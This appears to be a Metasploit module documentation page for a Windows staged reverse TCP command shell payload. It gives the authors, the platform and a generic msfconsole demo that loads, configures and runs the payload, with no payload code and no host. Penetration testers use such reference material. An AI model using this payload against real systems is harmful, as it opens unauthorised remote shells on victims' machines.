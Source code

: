 ## Windows Command Shell, Reverse TCP Stager (No NX or Win7)

Spawn a piped command shell (staged). Connect back to the 
attacker (No NX)


## Module Name
payload/windows/shell/reverse_nonx_tcp

## Authors
* spoonm
* sf
* vlad902





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    